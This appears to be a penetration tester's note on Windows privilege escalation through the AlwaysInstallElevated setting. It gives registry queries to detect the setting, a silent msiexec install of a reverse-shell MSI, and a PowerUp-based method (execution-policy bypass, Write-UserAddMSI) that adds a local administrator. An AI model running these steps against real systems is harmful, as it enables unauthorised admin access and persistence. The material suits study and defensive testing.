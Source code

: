 #### 1st Method

**Detection**

Open command prompt and type: 

```command prompt - windows
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
```

From the output, notice that “AlwaysInstallElevated” value is 1.  

In command prompt type: 

```command prompt - windows
reg query HKCU\Software\Policies\Microsoft\Windows\Installer  
```

From the output, notice that “AlwaysInstallElevated” value is 1.

Extra step: Run the following to look for any conditions.
```powershell - target
get-applockerpolicy -effective | select -expandproperty rulecollections
```

In this example, the malicious msi file would need to go in the `C:\Administrator` path.

![[Pasted image 20220927101417.png]]

**Exploitation**

[[1._Reverse Shells (WIN)#msi]]

Place ‘reverse.msi’ in `C:\Temp`.  

Open command prompt and type: 

```command prompt - windows
msiexec /quiet /qn /i C:\<PUT_THE_ENTIRE_PATH>\reverse.msi
```

#### 2nd Method
```command prompt - windows
powershell -ep bypass
```

```powershell - windows
. .\PowerUp.ps1
```

```powershell - windows
Invoke-AllChecks
```

![[Pasted image 20220207104341.png]]

```powershell - windows
Write-UserAddMSI
```

Now you will see a UserAdd file in the same directory as the PowerUp file.

![[Pasted image 20220207104500.png]]

Open the UserAdd file.

Fill in details, click create.

```command prompt - windows
net localgroup administrators
```

See our new user is now listed there.


